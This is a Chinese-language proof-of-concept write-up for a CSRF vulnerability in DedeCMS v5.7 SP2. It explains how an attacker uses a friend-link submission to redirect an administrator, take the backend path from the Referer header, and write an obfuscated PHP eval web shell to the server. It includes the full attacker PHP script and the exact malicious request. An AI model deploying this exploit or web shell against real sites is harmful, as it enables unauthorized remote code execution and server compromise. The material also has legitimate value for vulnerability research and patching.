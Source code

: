# DedeCMS_v5.7_友情链接CSRF_GetShell

## Affected Version

DedeCMS-V5.7-UTF8-SP2  （ 发布日期  2017-03-15 ）

下载地址： 链接: https://pan.baidu.com/s/1bprjPx1 密码: mwdq


## PoC

该版本在新建&修改标签功能（可以写PHP文件到本地）存在CSRF漏洞，通过申请友情链接的方式，诱使管理员点击，从而从 Referer 中拿到 后台路径，进而以管理员的身份写一句话到服务器上 GetShell 。

测试：

1. 申请友链

![](apply.png)

2. 编辑 友链 信息

![](edit.png)

dedecms_csrf.php 的内容如下：

    <?php
    $referer = $_SERVER['HTTP_REFERER'];
    $dede_login = str_replace("friendlink_main.php","",$referer);//去掉friendlink_main.php，取得dede后台的路径
    $muma = '<'.'?'.'@'.'e'.'v'.'a'.'l'.'('.'$'.'_'.'P'.'O'.'S'.'T'.'['.'\''.'c'.'\''.']'.')'.';'.'?'.'>';
    $exp = 'tpl.php?action=savetagfile&actiondo=addnewtag&content='. $muma .'&filename=shell.lib.php';
    $url = $dede_login.$exp;
    header("location: ".$url);
    exit();

3. 管理员登陆后台后 对 友链进行审核

![](link_list.png)

4. 审核的时候一般都会点击 地址 看一下网站的内容，由于友链中使用了header 跳转，所以结果其实是访问了 `http://localhost/DedeCMS/DedeCMS-V5.7-GBK-SP2-20170315/uploads/dede/tpl.php?action=savetagfile&actiondo=addnewtag&content=%3C?@eval($_POST[%27c%27]);?%3E&filename=shell.lib.php` 请求。

![](click_res.png)

5. 查看写入到服务器的一句话 `shell.lib.php`

![](shell.png)

## References

1. http://0day5.com/archives/4209/

